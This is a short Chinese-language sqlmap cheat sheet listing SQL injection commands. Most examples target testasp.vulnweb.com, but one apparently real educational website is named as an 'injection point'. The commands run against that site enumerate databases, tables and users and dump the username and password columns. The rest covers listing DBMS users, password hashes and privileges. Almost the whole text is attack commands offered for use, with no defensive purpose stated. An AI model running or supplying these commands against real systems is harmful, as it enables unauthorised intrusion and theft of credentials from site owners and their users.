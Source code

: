 几种注入方式：./sqlmap.py -r search-test.txt -p tfUPass

sqlmap -u http://testasp.vulnweb.com/Login.asp --forms

sqlmap.py -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"

 

注入点：http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7

 

获取所有数据库名称

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --dbs

 

获取当前数据库名称

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --current-db

 

获取当前用户名称

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --current-user

 

获取全部表段

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --tables -D 数据库名称

 

获取全部字段

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --columns -T 表段 -D 数据库名称

 

获取字段内容

sqlmap.py -u http://jxjy.bfa.edu.cn/bm/newslist.php?cid=7 --dump -C username,password -T 表段 -D 数据库名称

 

1)判断当前用户是否是dba

sqlmap.py -u 网址 --is-dba -v 1

2)--users:列出数据库管理系统用户

sqlmap.py -u 网址 --users -v 0

3)--passwords:数据库用户密码(hash)

sqlmap.py -u 网址 --passwords -v 0

sqlmap.py -u 网址 --passwords -U sa -v 0

4)查看用户权限

sqlmap.py -u 网址 --privileges -v 0

sqlmap.py -u 网址 --privileges -U postgres -v 0

5)--dbs可以利用的数据库
